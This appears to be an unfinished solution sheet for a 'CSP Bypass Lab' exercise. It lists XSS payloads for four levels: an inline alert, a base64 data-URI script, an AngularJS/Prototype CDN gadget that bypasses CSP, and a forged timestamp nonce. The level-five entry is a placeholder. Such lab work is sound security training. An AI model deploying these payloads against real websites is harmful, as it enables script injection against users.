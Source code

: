 # CSP Bypass Lab

Note: WIP

**+++ Level 1 +++**
```html
<script>alert(document.domain)</script>
```

**+++ Level 2 +++**
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

**+++ Level 3 +++**
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
</div>
```

**+++ Level 4 +++**
Decode (base64) the nonce. Change the time to now. Encode (base64) the changed timestamp. Use the encoded timestamp as nonce value.
```html
<script nonce="MzEuMDEuMjAyMy8xNjozMw==">alert(document.domain)</script>
```

**+++ Level 5 +++**
```html
tbc
```
